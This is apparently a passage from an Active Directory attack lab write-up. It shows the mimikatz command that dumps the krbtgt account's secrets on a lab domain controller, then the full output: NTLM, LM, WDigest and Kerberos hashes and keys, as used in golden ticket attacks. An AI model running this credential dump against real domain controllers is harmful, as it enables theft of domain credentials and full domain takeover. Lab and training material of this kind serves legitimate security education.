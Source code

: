 1. dump the krbtgt hash and security identifier ``lsadump::lsa /inject /name:krbtgt``

```shell
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81 
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a 
    18  cc18f1d9a1f4d28b58a063f69fa54f27
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371 
    29  15a607251e3a2973a843e09c008c32e3

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc6424
6bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4 
```
